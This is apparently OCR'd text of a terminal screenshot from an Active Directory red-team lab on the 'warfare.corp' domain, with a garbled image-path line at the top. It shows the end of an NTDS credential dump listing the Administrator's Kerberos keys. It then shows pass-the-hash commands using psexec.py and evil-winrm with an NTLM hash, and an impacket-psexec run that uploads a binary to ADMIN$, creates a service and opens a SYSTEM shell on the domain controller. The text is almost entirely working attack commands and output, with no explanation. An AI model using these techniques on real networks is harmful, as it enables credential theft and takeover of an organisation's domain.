 [+] Leaving NTDSHashes.__decryptSupplementalInfo
[+] Finished processing and printing user's hashes, now printing supplemental information
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:b8844cc6622c448c9b9f657e7a67ad7f9f26fa2c1c7520b7f1ad28389c6fdb91
Administrator:aes128-cts-hmac-sha1-96:cea9408d32669cad4f2938252928b38d
Administrator:des-cbc-md5:614ce65740c8b0a8
[*] Cleaning up... 
                                                                                                                                                                                                                                                            


psexec.py -debug 'warfare/Administrator@dc01.warfare.corp' -hashes aad3b435b51404eeaad3b435b51404ee:b2ab0552928c8399da5161a9eb7fd283

evil-winrm -i 10.201.71.91 -u Administrator -H b2ab0552928c8399da5161a9eb7fd283



──(kali㉿kali)-[~/Downloads/crta]
└─$ impacket-psexec -debug 'warfare/Administrator@dc01.warfare.corp' -hashes aad3b435b51404eeaad3b435b51404ee:b2ab0552928c8399da5161a9eb7fd283
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[+] Impacket Library Installation Path: /usr/lib/python3/dist-packages/impacket
[+] StringBinding ncacn_np:dc01.warfare.corp[\pipe\svcctl]
[*] Requesting shares on dc01.warfare.corp.....
[*] Found writable share ADMIN$
[*] Uploading file gZSzDNRm.exe
[*] Opening SVCManager on dc01.warfare.corp.....
[*] Creating service KavA on dc01.warfare.corp.....
[*] Starting service KavA.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.3650]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> 
